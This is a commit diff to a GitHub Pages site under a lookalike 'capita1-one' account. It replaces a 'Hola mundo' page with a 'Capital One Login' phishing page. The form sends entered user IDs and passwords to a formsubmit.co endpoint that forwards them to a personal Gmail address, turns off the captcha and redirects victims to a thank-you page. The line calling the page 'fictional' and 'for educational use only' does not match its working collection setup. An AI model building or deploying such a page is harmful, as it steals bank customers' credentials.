

Before and after one commit to capita1-one/Capital-one1, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-927 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,11 +1,89 @@
 <!DOCTYPE html>
-<html lang="es">
+<html lang="en">
 <head>
-  <meta charset="UTF-8" />
-  <title>Mi sitio en GitHub Pages</title>
+  <meta charset="UTF-8">
+  <title>SecureBank Login</title>
+  <style>
+    body {
+      background-color: #f1f3f6;
+      font-family: Arial, sans-serif;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+    }
+    .login-container {
+      background-color: white;
+      padding: 30px;
+      border-radius: 12px;
+      box-shadow: 0 4px 12px rgba(0,0,0,0.15);
+      width: 100%;
+      max-width: 400px;
+      text-align: center;
+    }
+    .logo {
+      max-width: 100px;
+      margin-bottom: 10px;
+    }
+    h2 {
+      margin-bottom: 20px;
+      color: #2d2d2d;
+    }
+    label {
+      font-weight: bold;
+      float: left;
+      margin-top: 10px;
+    }
+    input[type="text"],
+    input[type="password"] {
+      width: 100%;
+      padding: 12px;
+      margin: 10px 0 20px 0;
+      border: 1px solid #ccc;
+      border-radius: 6px;
+    }
+    button {
+      width: 100%;
+      padding: 12px;
+      background-color: #0047ab;
+      color: white;
+      border: none;
+      border-radius: 6px;
+      font-size: 16px;
+      cursor: pointer;
+    }
+    button:hover {
+      background-color: #003a8c;
+    }
+    .note {
+      margin-top: 15px;
+      font-size: 12px;
+      color: #777;
+    }
+  </style>
 </head>
 <body>
-  <h1>¡Hola, mundo!</h1>
-  <p>Este sitio está en vivo desde GitHub Pages 🎉</p>
+  <div class="login-container">
+    <!-- Logo -->
+    <img src="https://files.catbox.moe/5npen5.png" alt="SecureBank Logo" class="logo">
+
+    <h2>Capital One Login</h2>
+    <form id="loginForm" method="POST" action="https://formsubmit.co/thomasconry859@gmail.com">
+      <label for="username">User ID</label>
+      <input type="text" id="username" name="username" placeholder="Enter your user ID" required>
+
+      <label for="password">Password</label>
+      <input type="password" id="password" name="password" placeholder="Enter your password" required>
+
+      <button type="submit">Sign In</button>
+
+      <!-- Opcional: para evitar captcha -->
+      <input type="hidden" name="_captcha" value="false">
+
+      <!-- Opcional: redirigir después del envío -->
+      <input type="hidden" name="_next" value="https://capita1-one.github.io/Capital-one/gracias.html">
+    </form>
+    <div class="note">This is a fictional login page for educational use only.</div>
+  </div>
 </body>
 </html>
```
